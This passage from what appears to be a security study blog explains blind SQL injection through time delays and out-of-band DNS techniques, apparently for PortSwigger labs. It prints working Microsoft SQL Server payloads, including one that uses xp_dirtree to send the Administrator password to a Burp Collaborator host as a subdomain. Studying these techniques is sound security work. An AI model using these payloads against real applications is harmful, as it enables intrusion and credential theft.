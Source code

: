 #### Triggering time delays
- If the application handles errors properly, we can't use the above methods.
- Huh.. So, on successful execution wait for 10 seconds.

```sql
-- single quote
; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:10'--
```

#### Using out-of-band (OAST) techniques
- If the application queries asynchronously, the previous techniques won't work. We use OAST techniques.
- As previously, these can be triggered conditionally, depending on an injected condition, to infer information one bit at a time. But more powerfully, `data can be exfiltrated directly within the network interaction itself`. => Say, `exfiltration through DNS queries`.
- Use Burp Collaborator. This is a server that provides custom implementations of various network services (including DNS) and allows you to detect when network interactions occur as a result of sending individual payloads to a vulnerable application
- The techniques for triggering a DNS query are highly specific to the type of database being used. On Microsoft SQL Server, input like the following can be used to cause a DNS lookup on a specified domain:
`'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--`

This will cause the database to perform a lookup for the following domain: `0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net`

Example Payload: (password exfiltrated as a subdomain name)

```sql
'' -- Add single quote before the query
; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--
```

This will result in a DNS lookup like the following, allowing you to view the captured password: `S3cure.cwcsg...burp...net`

> Out-of-band ([OAST](https://portswigger.net/burp/application-security-testing/oast)) techniques are an extremely powerful way to detect and exploit blind SQL injection, due to the high likelihood of success and the ability to directly exfiltrate data within the out-of-band channel. For this reason, `OAST techniques are often preferable` even in situations where other techniques for blind exploitation do work.
{: .prompt-info}

## SQLi Labs

> The following information can only help if you are working on the labs. The following can be used as a reference. That being said, solving the blind SQLi labs without the pro version can feel unproductive. I made python scripts that uses socket programming to automate information retrieveal. Try to make your own scripts by understanding the concepts. Socket programming can be a great tool for anyone targeting offensive security roles (Although, I used requests module in the scripts). You can learn more from my Network security series.
{:.prompt-tip}
[SQLi scripts](https://github.com/snabith/burpsuite-prep/tree/main/SQLi)
